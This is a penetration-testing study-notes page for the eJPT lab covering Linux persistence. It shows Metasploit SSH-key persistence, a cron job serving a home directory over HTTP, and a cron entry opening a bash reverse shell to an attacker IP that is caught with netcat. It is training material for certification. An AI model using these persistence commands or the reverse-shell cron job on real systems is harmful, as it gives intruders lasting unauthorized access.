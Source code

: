 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

*To use the Metasploit persistence modules, we will first need to elevate our privileges on the Linux target.*

# Persistence via SSH Keys

```shell
use post/linux/manage/sshkey_persistence
set SESSION <session_number>
set CREATESSHFOLDER true
# We will now need to configure the module options, more specifically, we will need to set the SESSION ID and CREATESSHFOLDER options.
# The module will add a public SSH key to the authorized_keys file in the home directory of all user and service accounts.

# To use the private key, copy the key and save it as a new file, in this case, we will be saving it in the home directory of the root user on the Kali Linux system as ssh_key.
cp <loot_ssh_location> ssh_key

chmod 0400 ssh_key
# We will then need to assign the appropriate permissions to the file.

# We can now authenticate with the target using the private key via SSH
ssh -i ssh_key root@<target_domain>

# Retrieve the flag
ls -l
cat flag.txt
```

<br>

# Persistence Via Cron Jobs

Local Job Scheduling refers to the ability to create pre-scheduled and periodic background jobs using various mechanisms. Adversaries may use task scheduling to execute programs at system startup or on a scheduled basis for persistence.

```shell
ssh student@<target_IP>
# Check the running processes
ps -eaf # Cron service is running

# Create a cron job which will use the SimpleHTTPServer python module to serve the files present in student user’s home directory
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron
crontab cron
crontab -l

# Exit the session. Login and delete the wait file
ssh student@<target_IP>
rm wait

# Retrieve the flag
curl demo.ine.local:8000
curl demo.ine.local:8000/flag.txt

# Use nmap to scan for open ports. Since the HTTP server was started, port 8000 should be open.
nmap -p- demo.ine.local

# !! Alternative
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<my-ip>/1234 0>&1'" > cron
crontab cron
crontab -l 
ls

# Exit the session. Login and delete the wait file.
ssh student@<target_IP>
rm wait

# Retrieve the flag.
nc -nvlp 1234
ls -al
cat flag.txt 
# This work every minute
```
